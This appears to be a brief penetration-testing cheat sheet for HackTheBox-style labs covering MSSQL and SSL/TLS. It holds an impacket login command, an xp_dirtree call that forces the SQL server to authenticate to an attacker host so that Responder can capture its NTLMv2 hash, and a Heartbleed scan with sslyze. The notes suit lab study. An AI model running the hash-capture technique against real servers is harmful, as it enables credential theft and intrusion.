 # Misc Services Enumeration & Attack
[TOC]
###### tags: `Security` `Recon` `MSSQL` `SSL`

# MSSQL
Use impacket python script as client
```
python3 mssqlclient.py reporting@10.10.10.125 -windows-auth
```
### Get NTLMv2-SSP Hash
```
SQL> xp_dirtree "\\10.10.14.42\WildfootW\"
```
Then we can get Hash in `Responder`
![](https://i.imgur.com/I0Vb4mW.png)

# SSL/TLS
### SSLyze
[GitHub](https://github.com/nabla-c0d3/sslyze)
SSL/TLS server scanning
```
sslyze --heartbleed valentine.htb
```